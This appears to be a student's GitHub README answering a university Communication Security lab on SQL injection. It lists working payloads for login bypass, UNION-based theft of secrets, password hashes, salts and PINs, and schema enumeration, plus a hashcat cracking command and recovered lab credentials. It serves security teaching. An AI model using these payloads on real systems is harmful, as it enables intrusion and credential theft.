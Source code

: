 # KBE-Injections
Second lab of Communication Security course


# Answers
Here are the answers for this lab.
Code is in `kbe/src/test/java` directory 

## Exercise 1
Login without password
```
' OR 1=1 #
```

## Exercise 2
I have used Selenium + LIKE operator to find the result in 40 iterations.
```
PIN of 'sinelser' is 3043 
```


## Exercise 3
To steal the secret was enough to use
```
badName' UNION SELECT secret AS username FROM users WHERE username LIKE 'sinelser' #
```

and I've got 
```
AWQJITSIA5MZXDBK   (secret)
```

Then I've generated OTP using Google Authenticator. 

## Exercise 4
To obtain a list of usernames, passwords, salts, secrets and pins I have used
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 5
To obtain my password I've used BruteForce
```
Password for `sinelser` is ded93
```


## Exercise 6
To obtain teacher's password I've used prepared script to get a lot of popular passwords
The result file is 587 Mb. Then I have decided to use hashcat to go through all the combinations in that file.
Then I wrote method to add salt to each word and eventually run:
 
```
hashcat -a 0 -m 110 hashes.txt passwordsWithSalt.txt
```

Where `hashes.txt` has only hash of teacher's password and `passwordsWithSalt.txt` has a lot of passwords with put salt.

Password is
```
fm9fytmf7q
```

## Exercise 7
 Because password doesn't have any symbols like $_&#@(. Also it doesn't have Upper letters.

## Exercise 8
I've written 2 Injections:
1. Prints all column names
```
offset=10 UNION SELECT column_name AS message, '' AS date_time FROM information_schema.columns 
```
2. Prints all tables name
```
offset=10 UNION SELECT table_name AS message, '' AS date_time FROM information_schema.tables
```

## Exercise 9
 
```
I couldn't resolve it
```

